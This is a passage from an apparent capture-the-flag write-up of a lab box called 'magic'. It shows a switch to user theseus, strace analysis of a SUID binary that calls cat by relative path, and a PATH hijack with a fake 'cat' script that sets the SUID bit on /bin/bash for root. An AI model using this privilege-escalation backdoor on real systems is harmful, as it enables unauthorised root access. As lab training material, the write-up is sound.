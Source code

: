 Successfully moved laterally to Theseus with the new password.

```
www-data@magic:/tmp$ su - theseus
Password: 

theseus@magic:~$ whoami
theseus

theseus@magic:~$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

# PrivEsc

The `id` command output revealed a sus group called ‘users’. The “sysinfo” binary belongs to that group and has the SUID flag.

```
theseus@magic:~$ find / -group users -exec ls -lah {} \;  2>/dev/null
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo
```

Analyzed execve syscalls using `strace -f`. The binary is using `cat`  and `lshw` with relative paths!!!

```
theseus@magic:~$ strace -f sysinfo &> output.txt 

theseus@magic:~$ wc -l output.txt  
             
6212 output.txt
theseus@magic:~$ cat output.txt | grep -i execve
execve("/bin/sysinfo", ["sysinfo"], 0x7fff979d9c58 /* 14 vars */) = 0
[pid  5422] execve("/bin/sh", ["sh", "-c", "lshw -short"], 0x7ffdd2b4be68 /* 14 vars */ 
[pid  5426] execve("/bin/sh", ["sh", "-c", "cat /proc/cpuinfo"], 0x7ffdd2b4be68 /* 14 vars */ <unfinished ...>
...
```

Built a malicious script that creates a backdoor. Using the Sliver beacon would be much cooler though.

```
theseus@magic:~$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > cat

theseus@magic:~$ chmod +x ./cat

theseus@magic:~$ export PATH=$(pwd):$PATH

theseus@magic:~$ sysinfo
```

Escalated to root and retrieved the final flag. Make sure thawt you are using the right `cat`!!! XDD
